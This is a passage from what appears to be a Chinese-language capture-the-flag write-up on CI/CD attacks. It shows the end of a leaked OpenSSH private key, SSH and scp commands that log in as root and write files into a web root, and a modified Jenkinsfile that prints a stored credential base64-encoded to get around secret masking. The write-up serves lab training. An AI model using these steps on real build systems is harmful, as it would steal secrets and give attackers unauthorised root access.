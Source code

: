 ```plain
m9ZN6VGIbnFgtItUN8ntsS2srJ3N5VyfNiGg3pM3p0pWtOmSgjTPjrbeEtb44O73/0z38W
HfzphsbgHg0TVVEFN28N7yLHYpMRkLPz70h/RIBLRmaZrIYKuQ+KgSAPAKydnHaV8JJV75
ubOTb6IEGcR9jFOjwnEe+7pC3AZOwdkstQqCM8mUWUywqKVQ2j4iFeCWyGc2jWGq3tpT9C
oRq1Wiv56KO8IJGHfIAczKyTyLwrxgxwAAAMEA1/MFbll+7fir7eNaJuD2nhvOVq0BlBTj
KLOlCgZnBsWhh+uL+/7hzPQJdG9qZyjk2nkPeUzgwgfbtsjDhp18d1rN+ZvP7mXgtzS02K
ownCDcQz+weO/BhAFFl6IkDPB0XnC8oC0PNKs9Pp9SKlkiDtTKcvFCOBaq5LOn3XFQdaZR
lFAeCtpLFZd1aqozL+WxdhJ+OlUMWexAHNVInX3vM245R2hiSEHJfCMKwKmdQ2nkpyCjMz
nFX2YLEFe9BqS3AAAAF2FzaUBBc2FmLkdyZWVuaG9sdHMtTUJQAQID
-----END OPENSSH PRIVATE KEY-----

--------------------------ab4b01bd9df8bad8--
```

这里就拿到了key，可以ssh直接登录：

```plain
chmod 400 key
ssh -i key -p 2222 root@127.0.0.1
```

或者用scp修改文件：

```plain
echo "${FLAG}" | base64 > reportcov.sh
chmod 400 key
scp -P 2222 -i key reportcov.sh root@localhost:/var/www/localhost/htdocs
```

再build pipeline就可以获得flag。

## Mock Turtle

Jenkins代码有三层判断，问一下newbing，第一部分是检查增加的单词数和减少的单词数必须相同；第二部分是判断version文件是否只有一行，并且符合x.y.z的格式；第三部分是判断pull request中是否修改了version文件。满足上面条件就会执行merge。

因此修改`Jenkinsfile`

```plain
pipeline {
    agent any
    stages {
        stage('pr_checks') {
    steps {
        withCredentials([usernamePassword(credentialsId: 'flag10', usernameVariable: 'flag10', passwordVariable: 'TOKEN')]) {
            sh 'echo $TOKEN | base64'
        }
    }
            }
        }
}
```

修改version（`echo "1.0.13\c">version`，最后不能有换行）：
